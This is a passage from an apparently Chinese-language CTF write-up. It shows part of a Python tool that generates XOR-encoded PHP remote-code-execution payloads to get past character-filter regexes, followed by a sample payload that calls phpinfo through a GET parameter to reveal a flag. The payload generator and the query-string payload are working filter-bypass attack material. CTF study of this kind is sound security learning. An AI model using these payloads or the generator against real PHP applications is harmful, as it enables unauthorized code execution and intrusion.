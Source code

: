 ```python
    right = bytes([b ^ key for b in target_bytes])
    payload = left + b'^' + right
    # URL 编码，保留 '^' 符号不被编码
    return quote_from_bytes(payload, safe='^')


def prompt_input(prompt, default=None):
    """带默认值的输入提示函数"""
    if default:
        prompt = f"{prompt} (默认: {default}): "
    else:
        prompt = f"{prompt}: "
    value = input(prompt).strip()
    return value if value else default


def main():
    """
    交互式主函数：依次提示用户输入模式、正则和目标字符串，并输出带时间戳的结果（中文）。
    模式支持 b/blacklist(黑名单) 或 w/whitelist(白名单)，默认 whitelist。
    正则默认 '/[A-Za-z0-9]+/i'，目标默认 '_GET'。
    """
    print("=== XOR RCE 载荷生成器 ===")
    mode_input = prompt_input("请输入模式 b=黑名单, w=白名单", "w")
    mode = 'blacklist' if mode_input.lower() in ['b', 'blacklist'] else 'whitelist'
    regex_expr = prompt_input("请输入正则表达式 (/pattern/flags)", "/[A-Za-z0-9]+/i")
    target = prompt_input("请输入目标字符串", "_GET")

    try:
        payload = generate_payload(mode, regex_expr, target)
        timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
        print(f"[{timestamp}] 模式={mode} 正则={regex_expr} 目标={target} -> payload ={payload}")
    except Exception as e:
        print(f"错误: {e}", file=sys.stderr)
        sys.exit(1)

if __name__ == '__main__':
    main()

```

执行脚本:

```
?_=${%80%80%80%80^%DF%C7%C5%D4}{%80}();&%80=phpinfo
```

#### phpinfo()

意外的直接得到了 flag:
